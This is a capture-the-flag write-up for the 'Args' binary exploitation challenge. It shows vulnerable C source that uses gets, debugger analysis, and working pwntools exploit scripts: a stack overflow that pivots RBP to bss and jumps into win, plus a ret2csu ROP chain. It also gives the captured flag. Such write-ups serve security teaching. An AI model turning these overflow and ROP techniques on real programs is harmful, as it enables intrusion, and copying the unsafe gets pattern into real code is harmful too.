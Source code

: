 # Arg
---

### Challenge Description

Specific arguments... Seems easy

nc challenge2.lagncrash.com 10001

[Args.zip](https://github.com/caprinux/LagNCrash/files/6129814/Args.zip)

---

### Solution

So we are given the ELF binary and the source code. Checking the binary, we get:

```
$ pwn checksec argssource

[*] '/media/sf_Kali_Linux/argssource'

    Arch:     amd64-64-little

    RELRO:    Partial RELRO

    Stack:    No canary found

    NX:       NX enabled

    PIE:      No PIE (0x400000)

```

Opening the source code, we get: 

```C
#include <stdio.h>
#include <unistd.h>
int main(int argc, char** argv){
	setvbuf(stdout, NULL, _IONBF, 0);
	vuln();
}

int vuln(void){
	char buf[128];
	gets(buf);
	return 0;
}

int win(long a, long b, long c){
	if(!(a == 0xdeadbeef)) return 1;
	if(!(b == 0xcafebabecafebabe)) return 1;
	if(!(c == 0xd00df00dd00df00d)) return 1;

	char buf[64];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL) {
	printf("Run this on the server.\n");
	exit(0);
	}

	fgets(buf,64,f);
	printf(buf);

	return 0;	
}
```

As you can see, from the checksec, this file does not have a canary unlike Baby, but NX is enabled. 

We go on to read the source code, we see that the executable goes from the main() to the vuln() and takes an input with the gets call, gets call does not limit the number of bytes you can input.

But buffer only holds 128 bytes of input, then it returns, this allows us to buffer overflow.

Furthermore, from the win function, we can see that flag.txt is being read from fopen, and then its copied into buf with fgets, and printed with printf.

Let's further analyse the binary in gdb-gef

We disassemble the win function to see the segments of the fgets fopen printf

```gdb

   0x00000000004007c8 <+87>:	mov    esi,0x4008b4

   0x00000000004007cd <+92>:	mov    edi,0x4008b6

   0x00000000004007d2 <+97>:	call   0x400610 <fopen@plt>

   0x00000000004007d7 <+102>:	mov    QWORD PTR [rbp-0x8],rax

```

As we can see from here, the file path is loaded into fopen, and the file is saved in rax, then rbp-0x8.

```

```gdb
   0x00000000004007f6 <+133>:	mov    rdx,QWORD PTR [rbp-0x8]

   0x00000000004007fa <+137>:	lea    rax,[rbp-0x50]

   0x00000000004007fe <+141>:	mov    esi,0x40

   0x0000000000400803 <+146>:	mov    rdi,rax

   0x0000000000400806 <+149>:	call   0x4005d0 <fgets@plt>

```

Basically, fgets will write the flag into an offset of RBP-0x50

```
   0x000000000040080b <+154>:	lea    rax,[rbp-0x50]

   0x000000000040080f <+158>:	mov    rdi,rax

   0x0000000000400812 <+161>:	mov    eax,0x0

   0x0000000000400817 <+166>:	call   0x4005b0 <printf@plt>

```

And printf will print whatever is in RBP-0x50 which is our flag.

Since it is going to write in a offset of RBP, it has to write in a writeable memory.

Hence now we know we want to overwrite the previous RBP address to a writeable memory, such that when leave function is passed, our rbp will be our overwritten writeable memory.

However, where can we find writeable memory that we can set our rbp to? We can set our RBP to the uninitialized BSS segment of the memory, which is always writeable.

To obtain the address of the bss segment, we can run the following command

```
$ objdump -x argssource | grep bss
 24 .bss          00000010  0000000000601070  0000000000601070  00001070  2**4

0000000000601070 l    d  .bss	0000000000000000              .bss

0000000000601078 l     O .bss	0000000000000001              completed.6982

0000000000601070 g     O .bss	0000000000000008              stdout@@GLIBC_2.2.5

0000000000601080 g       .bss	0000000000000000              _end

0000000000601070 g       .bss	0000000000000000              __bss_start
```
Here, we get some address of bss functions, but I wasn't sure whether to write to the start or the end. Hence, I trial and error with both __bss_start and _end .

Opening the argssource file with Ghidra, we go to the win function and we can see the address. We skip all the parameter checks and copy the address of the win function right before flag.txt is opened.

win_addr_before_fopen = 0x00000000004007c8

Now that we have everything, we can craft our exploit.

```py
from pwn import *

win_addr_before_fread = 0x00000000004007c8
vuln_offset = 128
bss_segment = 0x0000000000601080

payload = b"A" * vuln_offset + p64(bss_segment) + p64(win_addr_before_fread)
p = remote('challenge2.lagncrash.com', 10001)
p.sendline(payload)
print(p.recv())
```

We obtain the flag.

```
LNC{C5U_H4V3_7H3_GADGETS}
```

_p.s. this was probably not the intended way of solving args but welp_

---

### Teaser

```py
from pwn import *
p = process("./argssource")
context.binary = 'argssource'

rop = ROP(context.binary)
rop.ret2csu(0xdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
rop.call('win')

p.sendline(flat({ 136: rop.chain()}))
print(p.recv())

```
